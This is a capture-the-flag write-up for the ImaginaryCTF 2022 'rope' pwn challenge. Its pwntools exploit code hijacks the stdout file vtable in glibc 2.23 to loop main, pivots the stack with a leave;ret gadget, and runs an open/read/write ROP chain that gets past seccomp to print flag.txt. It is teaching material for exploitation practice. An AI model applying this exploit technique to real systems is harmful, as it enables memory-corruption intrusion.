# ImaginaryCTF - 2022

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [rope.zip](rope.zip)

There will be 1 files in zip:
- ld-2.23.so
- libc-2.23.so
- run.sh
- vuln

Download, extract and patch libc to binary, then we can get started!

# 1. Find bug

Decompile program with ghidra, we see there is seccomp init in `setup()`. For `main()`, this is the decompiled program:



Program first gives us address of `puts()` and then asks for our input 3 times. The first time is to input to global variable `inp`, the second and the third are used to modify 1 address.

Checking all the security of binary, we cannot change the RELRO of binary:


So we have no luck here. Next, we know there is seccomp init so we will use `seccomp-tools` to get all allowed syscall:



So we can only use `read`, `write` and `open`. This means we need to do a ROPchain (Cannot execute shellcode because mprotect was prohibited by seccomp)

# 2. Idea

At first, I overwrote exit hook with `main()` and successfully jump back to main again, but just once so we cannot do anything to pivot stack.

So the only option is attack `puts()`. Searching for source code of `puts()` and we found it [here](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/ioputs.c#L32):

```c
#include "libioP.h"
#include <string.h>
#include <limits.h>

int _IO_puts(const char * str) {
    int result = EOF;
    _IO_size_t len = strlen(str);
    _IO_acquire_lock(_IO_stdout);

    if ((_IO_vtable_offset(_IO_stdout) != 0 ||
            _IO_fwide(_IO_stdout, -1) == -1) &&
        _IO_sputn(_IO_stdout, str, len) == len &&
        _IO_putc_unlocked('\n', _IO_stdout) != EOF)
        result = MIN(INT_MAX, len + 1);

    _IO_release_lock(_IO_stdout);
    return result;
}

#ifdef weak_alias
weak_alias (_IO_puts, puts)
#endif
```

It first check `_IO_vtable_offset (_IO_stdout) != 0` so let's see what does `_IO_vtable_offset` do in libc 2.23 ([source](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libioP.h#L126)):

```c
#if _IO_JUMPS_OFFSET
# define _IO_JUMPS_FUNC(THIS)\
    ( * (struct _IO_jump_t ** )((void * ) & _IO_JUMPS_FILE_plus(THIS) \ +
        (THIS) -> _vtable_offset))
# define _IO_vtable_offset(THIS)(THIS) -> _vtable_offset
#else
# define _IO_JUMPS_FUNC(THIS) _IO_JUMPS_FILE_plus(THIS)
# define _IO_vtable_offset(THIS) 0
#endif
```

Compared to `_IO_vtable_offset` in libc 2.24 and above:

```c
#if _IO_JUMPS_OFFSET
# define _IO_JUMPS_FUNC(THIS)\
    (IO_validate_vtable( *(struct _IO_jump_t ** )((void * ) & _IO_JUMPS_FILE_plus(THIS)\ +
        (THIS) -> _vtable_offset) ))
# define _IO_vtable_offset(THIS)(THIS) -> _vtable_offset
#else
# define _IO_JUMPS_FUNC(THIS)(IO_validate_vtable(_IO_JUMPS_FILE_plus(THIS)))
# define _IO_vtable_offset(THIS) 0
#endif
```

So libc 2.23 doesn't check the vtable `IO_validate_vtable` of stdout while libcs >= 2.24 do. So if we overwrite the vtable of stdout (it's name is `__IO_file_jumps` which is the last address of stdout) when libc is <= 2.23, no error will occur. This is where `__IO_file_jumps` is placed in stdout:



And if you don't know, this vtable contains most of function which will be used to execute when needed:



So let's change the address of `__IO_file_jumps` of stdout into `0x4141414141414141` and make it execute `puts()` to see what it does:



Now let's type `ni` to execute `puts@plt`:



We get a segfault at a call to `[rax+0x38]` with rax is address of `__IO_file_jumps` which we overwritten:



You can do this trick just in case libc <= 2.23. Trying with libc > 2.23 will throw you an error:



So overwriting `_IO_file_jumps` with address of `inp` and input address of `main()` in `inp` so we can jump back to main multiple time to do a stack pivot and execute ROPchain to get flag.

Summary:
- Stage 1: Make loop of main
- Stage 2: ROPchain & Stack pivot

# 3. Exploit

### Stage 1: Make loop of main

First, let's get the address of `puts()` and get the address of `__IO_file_jumps` in stdout:

```python
p.recvuntil(b'0x')
libc.address = int(p.recvline()[:-1], 16) - libc.sym['puts']
log.info(hex(libc.address))
stdout = libc.address + 0x3c5620
stdout_IO_file_jumps = stdout + 0xd8
```

Next, with the first input, we will input with address of `main()` at `inp+0x38` because we will want to overwrite `__IO_file_jumps` with `inp`:

```python
payload = p64(exe.sym['main'])
p.sendline(payload)
p.sendline(f'{stdout_IO_file_jumps}'.encode())
p.sendline(f'{exe.sym["inp"]-0x38}'.encode())
```

Because we want address of `main()` at the begining of our payload so we need to overwrite `__IO_file_jumps` with `inp-0x38`. Execute script will help us jump back to main at `puts()` and `printf()`, which means when it jump back to main and meet `printf()`, it will jump to main again. Therefore, we cannot input anything.

To solve this, let's jump right after `printf@plt`:

```python
payload = p64(exe.sym['main'] + 54)
p.sendline(payload)
p.sendline(f'{stdout_IO_file_jumps}'.encode())
p.sendline(f'{exe.sym["inp"]-0x38}'.encode())
```



And we can input now! Let's move on

### Stage 2: Stack pivot & ROPchain

Now we need to do a stack pivot so let's analyze rbp when program jump to main the second time:



And you know, that's the address of stdout:



So rbp now pointing to stdout and will not be changed when we jump back to main because we jump to `main+54`, not from the begining. The idea is to overwrite `[stdout+0]` with address of `inp` and `[stdout+8]` with instruction `leave ; ret` so that when we change payload above from `p64(exe.sym['main'] + 54)` to `p64(leave_ret)`, we can land on `inp`.

So let's overwrite `[stdout+0]` first with address of `inp`:

```python
payload = p64(exe.sym['main'] + 54)
p.sendline(payload)
p.sendline(f'{stdout}'.encode())
p.sendline(f'{exe.sym["inp"]}'.encode())
```

Now with the third jump to main, we will overwrite `[stdout+8]` with instruction `leave ; ret`:

```python
leave_ret = 0x00000000004013bc
payload = p64(leave_ret)
p.sendline(payload)
p.sendline(f'{stdout + 0x8}'.encode())
p.sendline(f'{leave_ret}'.encode())
```

Execute script and attach with gdb, we can see it `ret` to our `inp`:



The `\n` is from `payload`. This means we get code execution now. Let's build a ROPchain and get flag now:

```python
leave_ret = 0x00000000004013bc
pop_rax = 0x000000000003a738 + libc.address
pop_rdi = 0x0000000000021112 + libc.address
pop_rsi = 0x00000000000202f8 + libc.address
pop_rdx = 0x0000000000001b92 + libc.address
syscall = 0x00000000000bc3f5 + libc.address

rop = flat(
    pop_rax, 2,
    pop_rdi, 0x4040e0,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall,

    pop_rdi, 3,
    pop_rsi, 0x404a00,
    pop_rdx, 0x100,
    libc.sym['read'],

    pop_rdi, 1,
    libc.sym['write'],
    b'flag.txt\x00'
    )
payload = p64(leave_ret) + rop        # Add ROPchain to payload
p.sendline(payload)
p.sendline(f'{stdout + 0x8}'.encode())
p.sendline(f'{leave_ret}'.encode())
```

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `ictf{pivoting_that_stack_since_2016_9bb2f39a}`